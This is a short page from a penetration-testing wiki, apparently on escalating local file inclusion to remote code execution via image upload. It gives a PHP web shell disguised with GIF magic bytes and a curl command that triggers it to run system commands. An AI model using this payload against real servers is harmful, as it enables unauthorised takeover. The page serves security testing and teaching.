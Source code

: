 ```yaml
---
authors: ShutdownRepo
category: web
---
```


# file upload

## Image Upload

> [!TIP]
> The prerequisite for this method is to be able to [upload a file](../../unrestricted-file-upload.md).

```bash
# GIF8 is for magic bytes
echo 'GIF8<?php system($_GET["cmd"]); ?' > shell.gif

curl --user-agent "PENTEST" "$URL/?parameter=/path/to/image/shell.gif&cmd=id"
```

> [!TIP]
> Other LFI to RCE via file upload methods may be found later on the chapter [LFI to RCE (via php wrappers)](file-upload.md#via-php-wrappers-and-streams).

